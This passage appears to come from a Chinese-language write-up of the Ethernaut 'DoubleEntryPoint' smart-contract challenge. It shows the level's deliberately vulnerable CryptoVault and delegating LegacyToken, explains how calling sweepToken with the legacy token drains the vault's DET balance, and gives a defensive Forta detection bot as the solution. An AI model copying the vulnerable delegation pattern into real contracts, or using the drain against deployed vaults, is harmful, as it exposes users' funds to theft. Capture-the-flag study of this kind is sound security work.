      botRaisedAlerts[msg.sender] += 1;
  } 
}

contract CryptoVault {
    address public sweptTokensRecipient;  // player
    IERC20 public underlying; // DoubleEntryPoint

    constructor(address recipient) {
        sweptTokensRecipient = recipient;
    }

    function setUnderlying(address latestToken) public {
        require(address(underlying) == address(0), "Already set");
        underlying = IERC20(latestToken);
    }

    /*
    ...
    */

    function sweepToken(IERC20 token) public {
        require(token != underlying, "Can't transfer underlying token");
        token.transfer(sweptTokensRecipient, token.balanceOf(address(this)));
    }
}

contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
    DelegateERC20 public delegate;

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }

    function delegateToNewContract(DelegateERC20 newContract) public onlyOwner {
        delegate = newContract;
    }

    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }
}

contract DoubleEntryPoint is ERC20("DoubleEntryPointToken", "DET"), DelegateERC20, Ownable {
    address public cryptoVault;
    address public player;
    address public delegatedFrom;
    Forta public forta;

    constructor(address legacyToken, address vaultAddress, address fortaAddress, address playerAddress) {
        delegatedFrom = legacyToken;
        forta = Forta(fortaAddress);
        player = playerAddress;
        cryptoVault = vaultAddress;
        _mint(cryptoVault, 100 ether);
    }

    modifier onlyDelegateFrom() {
        require(msg.sender == delegatedFrom, "Not legacy contract");
        _;
    }

    modifier fortaNotify() {
        address detectionBot = address(forta.usersDetectionBots(player));

        // Cache old number of bot alerts
        uint256 previousValue = forta.botRaisedAlerts(detectionBot);

        // Notify Forta
        forta.notify(player, msg.data);

        // Continue execution
        _;

        // Check if alarms have been raised
        if(forta.botRaisedAlerts(detectionBot) > previousValue) revert("Alert has been triggered, reverting");
    }

    function delegateTransfer(
        address to,
        uint256 value,
        address origSender
    ) public override onlyDelegateFrom fortaNotify returns (bool) {
        _transfer(origSender, to, value);
        return true;
    }
}
```

- 传入 `CryptoVault.sweepToken()` 代币的地址不能等于 `underlying`，而若传入 `LegacyToken` 的地址，将调用 `delegateTransfer`，实际转移的是 `CryptoVault` 持有的 `DET` 代币，对应 `underlying`
- 若 `origSender` 为 `CryptoVault` 的实例则 `raiseAlert`

    ```js
    contract DetectionBot is IDetectionBot {
      address vault;

      constructor(address instance) {
        DoubleEntryPoint dep = DoubleEntryPoint(instance);
        vault = dep.cryptoVault();
      }

      function handleTransaction(address user, bytes calldata msgData) external {
        // skip the 4-byte function signature
        ( , , address sender) = abi.decode(msgData[4:], (address, uint256, address));
        if (sender == vault) {
          IForta(msg.sender).raiseAlert(user);
        }
      }
    }
    ```

- 部署 `DetectionBot` 后，使用 `player` 账户调用 `Forta.setDetectionBot()`
- 可以在 `sweepToken()` 的最后检查合约 `underlying` 的余额是否和调用前相同

### 参考资料

- [ABI Decode | Solidity by Example](https://solidity-by-example.org/abi-decode/)
- [abi.decode cannot decode `msg.data` · Issue #6012 · ethereum/solidity](https://github.com/ethereum/solidity/issues/6012)
- [TrueUSD ↔ Compound Vulnerability | by ChainSecurity | ChainSecurity | Medium](https://medium.com/chainsecurity/trueusd-compound-vulnerability-bc5b696d29e2)